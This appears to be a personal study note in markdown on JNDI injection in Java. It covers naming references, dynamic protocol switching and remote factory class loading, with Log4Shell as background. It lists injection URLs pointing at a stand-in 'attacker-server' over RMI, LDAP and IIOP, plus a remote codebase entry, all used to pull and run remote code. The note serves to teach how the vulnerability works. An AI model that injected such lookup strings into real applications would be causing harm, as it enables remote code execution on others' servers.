


# JNDI injection & LDAP Entry Poisoning 

## Introduction
> JNDI is a NutShell

`Java Naming and Directory Interface`, is a common interface to interact with Naming and Directory Services/Providers.


### # What is Naming Service/Provider 
is a system that `Binds` a name to a given value/object.

It provides a facility to find an object based on a name that is known as `Lookup` or `Search` operation.

```note
EX : DNS Naming Service, that Binds the IP adddress to the host name 

EX : File System Naming Service, that binds the file name to the file itself   
```

### # What is Directory Service/Provider
is a service that allows `Storing` and `finding` special type of objects that is known as Directory Object -- A collection of attributes --

thereore it offers extended functionality to operate on the object attributes. 

```note
EX : LDAP Directory Service, that stores things like employee records with all the collection of attributes (name, email, location, ...)  
```

---------------------------------------------------
## JNDI Architecture    
JNDI offers a common interface to interact with different types of Services/Protocols .

<br>
<p align="center"> 
   
</p>
<br>


As we see the API exposes the methods to Bind, to Lookup or search for names, to rename a binding or delete a binding and so on. 

And the Server Provider Interface (SPI) allows different services to be managed by JNDI. 

---------------------------------------------------
## JNDI In Action 

```note
RMI Registry is a Naming Service, that binds a name to a given java object 
```

```java 
// The initial context configured to work with RMI Regestry (Choosen Provider Here)
Hashtable env = new Hashtable();
env.put(INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(PROVIDER_URL, "rmi://localhost:1099");  // the Registry Running on localhost

// Initialize the context
Context ctx = new InitialContext(env);

// Bind string to name foo in the RMI Registry 
ctx.bind("foo", "Sample String");

// Look up the object 
Object local_obj = ctx.lookup("foo"); 
// Recover the objects using lookup operation, on the same JVM or diff JVM ???  
```
Other Services can be used by using different `PROVIDER_URL`
```java 
env.put(INITIAL_CONTEXT_FACTORY, "com.sun.jndi.ldap.LdabCtxFactory");
env.put(PROVIDER_URL, "ldab://localhost:389");
```


```note
JVM - Java Virtual Machine 
```

<br>
<br>


---------------------------------------------------
## JNDI Naming References

>If we want to bind java object to a Naming/Directory Service We can use the data serialization of the object - binding the binary representation to the given name
<br>
But if the object is too large or not serializable we can use some thing called Naming References 

<b>JNDI Naming References:</b>
* <b>Reference Addresses:</b> 
  <br> addr of the object 
  ```
  EX: rmi//server/refAddr
  ```
  So when we do the lookup operation we will receive the JNDI reference, the naming server will decode this reference and get the address, then we will use the addr to fetch the final object.

* <b>Remote Factory:</b>
  <br> location of a remote factory class to instantiate the object 
  * FactoryClassName 
  * CodeBase : Location of the factory class file
  
  <br>So when we do the lookup operation we will receive the JNDI reference, we track the factory location, fitch that remote class, then we instantiate that factory to generate our object.

<br>
<p align="center">
   
</p>
<br>


In the SPI layer (Server layer) and for example in the RMI there is a JVM property that needs to be enabled in order to allow the remote class loading, which is by default disabled, and even if you enable this property then the security maneger have to specefy where these classes are loaded from, what kind of these classes can run and so on. 
<br><br>
For LDAP it's similar, but we only have the property without the security maneger enforcement, So once the developers have enabled this property, the code can load remote classes without any security management.
<br><br>
The Most intresting part is in the Naming Maneger Layer (the layer that decodes the JNDI references, the layer that will fetch the remote factory classes) which has no JVM property nor security management.

```note
When we initialize the JNDI context we configure it to work with a given provider type and url 

```

------------------------------------------------
## JNDI Injection 
It's an `Input Validation` vulnerability, where untrusted data added into JNDI lookup method, which could lead to a remote code execution.

### Attack Process 
1. Attacker binds payload in attacker Naming/Directory service.
2. Attacker Inject an absolute URL to a vulnerable JNDI lookup method.
   <br> ** The URL has a name that when looked up is going to pull the malicious object associated with this name into his own server, and run it. 
3. App performs the lookup.
4. App connects to the attacker controlled N/D service that returns payload.
5. App decodes the response and trigger the payload


```java
// Create Initial Context
Hashtable env = new Hashtable();
env.put(INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(PROVIDER_URL, "rmi://secure-server:1099");  // Secure
Context ctx = new InitialContext(env);

// Look up the object 
Object local_obj = ctx.lookup(<attacker-controlled>); 
```
If we perform a lookup operation, this operation should be resolved relatively to the `INITIAL_CONTEXT_FACTORY` and `PROVIDER_URL`,  However <b><span style="color:#d74338"> this is not ture </span></b>

The reason is that JNDI implements something called `Dynamic Protocol Switching`, So if the attacker is capable of providing an absolute URL, they will be able to overwrite the default `INITIAL_CONTEXT_FACTORY` ==> `Protocol` and `PROVIDER_URL`.
<br>
So the attacker will be able to point the lookup operation to their own server and then return the JNDI reference to trigger the remote code execution payload.
<br><br>

### Attack Vectors
Attacker can provide an absolute URL changing the protocol/provider
```c
rmi://attacker-server/Ref  
ldap://attacker-server/cn=Ref,dc=test,dc=org
iiop://attacker-server/Ref
```
There is three main vectors to gain RCE through JNDI Injection:
* RMI
  * JNDI References 
  * Remote Object [ later ]
* CORBA
  * IOR 
* LDAP 
  * Serialized Object 
  * JNDI References 
  * Remote Location [ later ] 


### Attack Example
Using RMI Vector:
```
Class Name : Payload
Factory Name : Payload Factory
Factory Codebase : http://attacker-server
```
<b>Naming Manager Decoding Method</b>
```java
static ObjectFactory getObjectFactoryFromReference(Reference ref, String factoryName){
  Class clas = null;
  // Try to use the current class loader 
  ...
  // Not in class path; try to use codebase
  String codebase;
  if (clas == null && (codebase = ref.getFactoryClassLocation()) != null){
    try {
      clas = helper.loadClass(factoryName, codebase);
    } catch (ClassNotFoundException e) {}
  } 
  return (clas != null) ? (ObjectFactory) clas.newInstance() : null 
}
```

So the attacker setup the RMI Registry, then bind JNDI reference using his remote factory with any class name.
so when the actual code in the JDK gets this JNDI Ref and try to decode it, it will actually extract the factory class and the factory location from the Ref, and then it will load this class from the reomte location, and instantiate it.
so the attacker will be able to put the pillow in the `constructor` or the static initializer,


-------

My notes

-------


```note
LDAP and RMI are servers that receive a name and send back a java object   

https://www.fastly.com/blog/new-data-and-insights-into-log4shell-attacks-cve-2021-44228


references:
  https://www.youtube.com/watch?v=Y8a5nB-vy78&ab_channel=BlackHat

```


